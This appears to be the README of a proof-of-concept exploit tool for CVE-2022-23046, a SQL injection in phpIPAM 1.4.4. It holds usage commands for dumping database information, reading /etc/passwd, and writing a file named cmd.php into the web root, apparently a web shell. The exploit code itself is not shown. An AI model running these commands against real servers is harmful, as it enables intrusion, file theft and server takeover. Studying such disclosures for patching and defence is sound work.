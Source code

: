# Project Title

CVE-2022-23046 phpIPAM 1.4.4 - SQL Injection

## Description

phpIPAM v1.4.4 allows an authenticated admin user to inject SQL sentences in the subnet parameter while searching a subnet via app/admin/routing/edit-bgp-mapping-search.php. This project currently prints out database information and host version information. It can also attempt to read files and write to the server as well.

## Getting Started

### Executing program

* To check if it is vulnerable.
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password
```
* For test for file read
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password -f /etc/passwd
```
* For test for file write
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password -w /var/www/html/cmd.php
```


## Help

For Help Menu
```
python3 phpipam_1.4.4.py -h
```

## Acknowledgments

* [FluidAttacks](https://fluidattacks.com/advisories/mercury/)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.